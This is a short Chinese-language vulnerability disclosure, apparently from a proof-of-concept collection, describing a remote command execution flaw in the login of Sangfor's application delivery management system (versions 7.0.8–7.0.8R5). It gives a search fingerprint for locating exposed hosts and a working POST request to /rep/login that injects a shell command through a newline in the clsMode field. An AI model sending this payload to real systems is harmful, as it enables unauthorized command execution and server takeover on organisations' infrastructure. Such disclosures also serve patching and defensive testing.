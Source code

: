 # 

# 深信服 应用交付管理系统 login 远程命令执行漏洞

## 漏洞描述

深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

## 网络测绘

```
fid="iaytNA57019/kADk8Nev7g=="
```

## 漏洞复现

登陆页面

![image-20230828164544551](images/image-20230828164544551.png)

验证POC

```
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

![image-20230828164602536](images/image-20230828164602536.png)
